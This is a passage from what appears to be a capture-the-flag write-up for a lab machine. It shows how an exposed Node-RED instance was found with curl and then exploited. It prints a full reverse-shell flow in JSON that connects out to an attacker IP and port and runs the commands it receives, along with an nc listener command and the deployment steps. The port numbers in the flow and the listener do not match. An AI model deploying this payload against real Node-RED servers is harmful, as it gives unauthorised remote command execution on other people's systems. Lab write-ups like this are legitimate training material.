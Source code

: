 Sending a POST request to the URL http://10.10.10.94:1880 revealed sensitive information about the path of the Node-RED application.

```bash
$ curl -s -X POST http://10.10.10.94:1880/

{"id":"df46534b0bfa93473137b5a6df16ff3c","ip":"::ffff:10.10.14.26","path":"/red/{id}"} 
Accessing the disclosed URL revealed the presence of a Node-RED application.
http://10.10.10.94:1880/red/df46534b0bfa93473137b5a6df16ff3c/
```

## Exploit of Node-RED
Copy the contents of [node-red reverse shell](https://raw.githubusercontent.com/valkyrix/Node-Red-Reverse-Shell/master/node-red-reverse-shell.json).

```json
[{"id":"7235b2e6.4cdb9c","type":"tab","label":"Flow 1"},{"id":"d03f1ac0.886c28","type":"tcp out","z":"7235b2e6.4cdb9c","host":"","port":"","beserver":"reply","base64":false,"end":false,"name":"","x":786,"y":350,"wires":[]},{"id":"c14a4b00.271d28","type":"tcp in","z":"7235b2e6.4cdb9c","name":"","server":"client","host":"10.10.14.126","port":"9999","datamode":"stream","datatype":"buffer","newline":"","topic":"","base64":false,"x":281,"y":337,"wires":[["4750d7cd.3c6e88"]]},{"id":"4750d7cd.3c6e88","type":"exec","z":"7235b2e6.4cdb9c","command":"","addpay":true,"append":"","useSpawn":"false","timer":"","oldrc":false,"name":"","x":517,"y":362.5,"wires":[["d03f1ac0.886c28"],["d03f1ac0.886c28"],["d03f1ac0.886c28"]]}]

```

On the node-red site click on the menu icon > import > clipboard.
![import clipboard](/assets/img/htb/reddish/import_clipboard.png)

Paste the contents of the [node-red reverse shell](https://raw.githubusercontent.com/valkyrix/Node-Red-Reverse-Shell/master/node-red-reverse-shell.json), then click on import.

![import nodes](/assets/img/htb/reddish/import_nodes.png)

Click on the node that shows the IP and Port.

![ipport node](/assets/img/htb/reddish/ipport_node.png)

Start a listener on the attacker machine using the chosen port.

```bash
nc -lnvp 9001
```

Go to the node-red site and click on Deploy.

![deploy](/assets/img/htb/reddish/deploy_shell.png)

A reverse shell is received.

![hostname container 1](/assets/img/htb/reddish/hostname_container_1.png)

## Access to nodered container

